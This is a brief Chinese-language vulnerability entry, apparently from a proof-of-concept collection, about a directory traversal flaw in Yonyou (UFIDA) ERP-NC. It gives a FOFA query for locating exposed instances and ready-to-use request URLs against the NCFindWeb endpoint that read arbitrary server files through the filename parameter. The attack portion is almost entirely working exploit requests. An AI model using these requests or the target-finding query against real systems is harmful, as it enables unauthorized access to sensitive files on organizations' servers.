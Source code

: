 ### 描述
用友ERP-NC 存在目录遍历漏洞，攻击者可以通过目录遍历获取敏感文件信息
fofa：app="用友-UFIDA-NC"

### POC & EXP
```
http://127.0.0.1/NCFindWeb?service=IPreAlertConfigService&filename=

# 在filename后面加文件名即可读取文件
http://127.0.0.1/NCFindWeb?service=IPreAlertConfigService&filename=ncwslogin.jsp
```
